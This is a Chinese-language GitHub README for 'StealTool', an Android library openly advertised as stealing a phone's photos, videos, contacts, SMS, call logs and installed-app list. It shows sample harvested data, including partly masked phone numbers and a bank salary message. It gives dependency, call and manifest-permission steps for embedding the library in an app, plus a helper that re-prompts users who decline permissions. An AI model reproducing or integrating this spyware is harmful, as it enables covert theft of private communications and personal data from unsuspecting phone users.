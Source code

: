 # 盗取手机敏感信息，Android 6.0之上兼容

### 项目介绍
- 盗取信息包含：
    - 手机中所有照片
    - 手机中所有视频
    - 手机中所有通讯录
    - 手机中所有短信
    - 手机中所有通话记录
    - 手机中所有安装应用
- 兼容Android 6.0及之上版本
- 动态权限申请工具开放

### 效果展示

##### 1.照片信息
```java
    MaterialBean{mLogo='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', title='Screenshot_2017-07-23-01-38-14.png', time='2017-07-23 01:38', filePath='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', isChecked=false, fileSize=1025172, fileId=89cfda75f36e44e3a46235937a8c3000, uploadedSize=0, fileType=6, uploaded=false, progress=0, timeStamps='1536657493366', flag='0'}

```
##### 2.视频信息
```java
      MaterialBean{mLogo='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', title='VID_20170917_130313.mp4', time='视频时间-00:00:11', filePath='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', isChecked=false, fileSize=29080924, fileId=7be02431aeff4d19b2612b686543ce10, uploadedSize=0, fileType=2, uploaded=false, progress=0, timeStamps='1536657639141', flag='0'}

```

##### 3.通讯录
```java
    PhoneUserInfo{id='daaf163b02d44e6dabf59cfb9a8c0958', name='*鹏', number='151**054191'}
    PhoneUserInfo{id='15aebbd2e6134e59992192b095f0e67c', name='侯*利', number='1830***2828'}
    PhoneUserInfo{id='28bcabbb14e24e3da4b5bd79c10dfa46', name='*八', number='187337**438'}
    PhoneUserInfo{id='3d637ea6910f4b71a105ae06b7ba3645', name='申通小哥', number='18513**8127'}

```

##### 4.短信
```java
    [ 10659805436945326, 0, 【luckin coffee】小蓝杯，北马爱~送你一张5折券（全场饮品通用）下载app立享http://t.cn/RlQ2ad3 回TD退订, 2018-09-11 01:42:27, 接收 ]

    [ 95555, 0, 您账户8693于09月11日11:42入账工资，人民币22267.30。[招商银行], 2018-09-11 11:46:28, 接收 ]

```

##### 5.通话记录
```java
     CallInfo{number='13141**2862', date=1527322406732, type=2}
    CallInfo{number='1891**85043', date=1527325280548, type=1}
    CallInfo{number='1360110**83', date=1527335837700, type=2}

```

##### 6.安裝App
```java
    AppInfo{appName='CSDN', appIcon='android.graphics.drawable.BitmapDrawable@eb62aed'}
    AppInfo{appName='皮皮虾', appIcon='android.graphics.drawable.BitmapDrawable@4f2ad22'}
    AppInfo{appName='Chrome', appIcon='android.graphics.drawable.BitmapDrawable@66043b3'}
    AppInfo{appName='UC浏览器', appIcon='android.graphics.drawable.BitmapDrawable@b0f8d70'}
    AppInfo{appName='抖音短视频', appIcon='android.graphics.drawable.BitmapDrawable@75788e9'}

```

### 最简单使用方式

##### 1. Add it in your root build.gradle at the end of repositories:

```java
allprojects {
		repositories {
			...
			maven { url 'https://jitpack.io' }
		}
	}
```
##### 2. Add the dependency

```java
dependencies {
	        implementation 'com.github.pengMaster:StealTool:1.0.0'
	}
```
##### 3. Add use to activity

```java
//获取图片
StealUtils.getAllLocalPhotos(this@MainActivity)

//获取视频
StealUtils.getAllLocalVideos(this@MainActivity)

//获取联系人
StealUtils.getAllContactInfo(this@MainActivity)

//获取短信
StealUtils.getSmsInPhone(this@MainActivity)

//获取通话记录
StealUtils.getCallInfos(this@MainActivity)

//获取安装所有App
StealUtils.getInstallApp(packageManager)


java (this) = kotlin (this@MainActivity)
java (getPackageManager()) = kotlin (packageManager)

```

##### 4. add permission to your menifest

```java
    <!--读-->
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <!--联网-->
    <uses-permission android:name="android.permission.INTERNET" />
    <!--联系人-->
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.READ_PHONE_STATE" />
    <!--短信-->
    <uses-permission android:name="android.permission.READ_SMS" />
    <!--通话记录-->
    <uses-permission android:name="android.permission.READ_CALL_LOG" />
```

### 介绍一下很好用的Android6.0动态权限申请工具


####  申请一个权限：
```
    PermissionUtils.checkAndRequestPermission(mContext, PERMISSION_CAMERA, REQUEST_CODE_CAMERA,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
if(PermissionUtils.isPermissionRequestSuccess(grantResults))
                {
                    // 权限申请成功

                }
```

#### 什么？要同时申请多个权限？
```
    PermissionUtils.checkAndRequestMorePermissions(mContext, PERMISSIONS, REQUEST_CODE_PERMISSIONS,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 当然上面这些都不是申请权限的正确姿势，理想的姿势应该是：
- 第一次申请权限：按照正常流程走；
- 如果用户第一次拒绝了权限申请，第二次申请时应向用户解释权限用途；
- 如果用户勾选了“不再询问”选项，应引导用户去设置页手动开启权限。

于是，引申出了复杂版的权限申请方法：
## 自定义权限申请：
```
PermissionUtils.checkPermission(mContext, PERMISSION_CAMERA,
                new PermissionUtils.PermissionCheckCallBack() {
            @Override
            public void onHasPermission() {
                // 已授予权限

            }

            @Override
            public void onUserHasAlreadyTurnedDown(String... permission) {
                // 上一次申请权限被拒绝，可用于向用户说明权限原因，然后调用权限申请方法。
            }

            @Override
            public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                // 第一次申请权限或被禁止申请权限，建议直接调用申请权限方法。
            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
PermissionUtils.onRequestPermissionResult(mContext, PERMISSION_CAMERA, grantResults, new PermissionUtils.PermissionCheckCallBack() {
                    @Override
                    public void onHasPermission() {

                    }

                    @Override
                    public void onUserHasAlreadyTurnedDown(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                    }

                    @Override
                    public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                        // 显示前往设置页的dialog
                        );
                    }
                });
```
#### 参与贡献

1. Fork 本项目
2. 新建 Feat_xxx 分支
3. 提交代码
4. 新建 Pull Request
5. 权限工具参考：https://github.com/ifadai/PermissionUtils


#### github地址

 - 项目地址：https://github.com/pengMaster/StealTool
